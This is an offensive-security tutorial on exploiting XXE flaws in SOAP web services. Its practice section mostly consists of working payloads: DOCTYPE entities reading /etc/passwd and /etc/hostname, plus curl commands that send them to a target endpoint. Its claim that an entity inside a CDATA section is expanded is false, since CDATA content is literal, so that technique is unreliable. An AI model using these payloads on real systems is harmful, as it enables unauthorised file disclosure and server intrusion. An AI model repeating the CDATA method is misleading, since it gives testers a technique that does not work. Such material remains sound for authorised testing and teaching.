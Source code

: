 ```yaml
---
title: Exploiting XXE in SOAP Web Services
description: Explore how to exploit XML External Entity vulnerabilities in SOAP messages
  for sensitive data access.
keywords:
- XXE vulnerability
- SOAP exploitation
- XML External Entity
- web service security
- CDATA injection
- remote file access
- SOAP message parsing
- sensitive data disclosure
- server vulnerabilities
---
```


# XXE Inside SOAP

## Context

In this article, we will explore how to exploit XML External Entity (XXE) vulnerabilities in SOAP messages to access sensitive information or retrieve files from a web server. This technique is built on the assumption that the reader understands the structure of XML, the basics of the SOAP protocol, and general XXE attack strategies. This knowledge prepares you to execute this attack effectively in environments where SOAP web services are deployed.

## Theory

### SOAP Message Structure and XML Parsing

SOAP, or Simple Object Access Protocol, is an XML-based protocol for exchanging structured information in the domain of web services. Each SOAP message is an XML document, which includes an envelope to define the message framework and body. As these messages are parsed, they inherit XML parser vulnerabilities, including XXE.

The data flow in a SOAP interaction involves sending a SOAP request to a web service endpoint, which processes the XML and executes the requested functions. If the XML parser in use is configured insecurely, it may allow the inclusion of external entities, leading to potential security vulnerabilities.

### Embedding External Entities in SOAP

When a SOAP endpoint uses a vulnerable XML parser, an attacker can define and reference an external entity within a SOAP message. This is done by crafting a SOAP request that contains a malicious Document Type Definition (DOCTYPE) and entity reference. The server, upon parsing the XML, resolves the entity, which can lead to various exploits.

Entities can be stealthily embedded within SOAP elements by leveraging CDATA sections or deeply nested nodes. This trick can help bypass filters that aren't thoroughly validating or sanitizing SOAP message content.

### Impact of XXE in SOAP Web Services

When XXE vulnerabilities are leveraged within SOAP services, it can lead to severe impacts such as file disclosure from the server, Server-Side Request Forgery (SSRF), or even remote code execution. This is primarily due to SOAP endpoints occasionally being configured to trust input from supposedly authenticated clients. This misplaced trust, combined with poor XML parser configurations, can leave the services open to exploitation.

## Practice

### Manual XXE Exploitation via SOAP Request

To manually exploit an XXE vulnerability via a SOAP request, follow these steps:

- **Craft a SOAP Message:**
  The aim is to create a SOAP message with a malicious DOCTYPE declaration and external entity reference targeting the XML parser's entity resolution.

  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
  <soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
    <soap:Body>
      <getInfo>
        <data>&xxe;</data>
      </getInfo>
    </soap:Body>
  </soap:Envelope>
  ```

  This payload attempts to read the /etc/passwd file from the server.

- **Send the SOAP Request:**
  Utilize `curl` to send the crafted SOAP request to the target endpoint.

  ```bash
  curl -X POST -H "Content-Type: text/xml" --data @xxe_soap.xml http://target-soap-endpoint/service
  ```

  The command submits the standardized XML request to the potentially vulnerable SOAP service.

- **Check the Response:**
  If successful, the server's response will contain the contents of the /etc/passwd file.

  ```text
  # Response content with user information, if vulnerable.
  ```

### XXE via CDATA Injection in SOAP

Another approach is to perform XXE through CDATA injection. Here's how:

- **Embed Entity in CDATA:**
  This technique involves placing an entity reference inside a CDATA section within the SOAP message.

  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/hostname">]>
  <soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
    <soap:Body>
      <getHost>
        <info><![CDATA[&xxe;]]></info>
      </getHost>
    </soap:Body>
  </soap:Envelope>
  ```

  Here, we target /etc/hostname to retrieve the server's hostname.

- **Submit the Payload:**
  Again, use `curl` to deliver the CDATA-wrapped entity in the payload.

  ```bash
  curl -X POST -H "Content-Type: text/xml" --data @xxe_soap_cdata.xml http://target-soap-endpoint/service
  ```

  This action sends the crafted XML to the web service endpoint.

- **Analyze the Response:**
  If successful, the server response will include the hostname, verifying that the entity expansion worked within the CDATA section.

  ```text
  # Response content displaying the hostname if vulnerable.
  ```

## Tools

- **curl**
- **Burp Suite**
- **SOAPUI**

By employing these tools, you can systematically test SOAP endpoints for XXE vulnerabilities and assess the potential impact effectively.